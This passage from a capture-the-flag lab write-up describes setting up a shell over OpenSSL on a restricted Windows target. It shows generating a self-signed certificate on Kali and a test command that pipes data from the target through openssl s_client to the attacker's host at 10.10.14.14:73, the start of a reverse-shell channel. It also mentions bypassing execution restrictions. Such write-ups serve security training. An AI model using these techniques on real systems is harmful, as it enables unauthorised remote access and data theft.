 
### Shell via OpenSSL

#### Why

I’ve already shown that from my current access, I can’t run PowerShell. Now that I have identified some open ports, I could try to bring a binary to target that would connect back to me on one of them, but this box is quite hostile to letting me run much. I do understand there’s a way to bypass the restrictions using COR PROFILERS. If I have a chance to figure that out, I may add a follow up post later. But for now I went with OpenSSL for a shell.

#### Generate SSL Cert

With two ports I can communicate on and `openssl`, I can make a more stable shell. First I need SSL certs for the connection.

```

root@kali# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes                                                                                    
Generating a RSA private key
.................................................................................................................................++++                                                                                      
..................................++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

root@kali# ls *.pem
cert.pem  key.pem

```

#### Test Connection

Now I’ll test that I can connect and send data using the following:

```

ethereal> quiet ( echo "test" | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 )

```
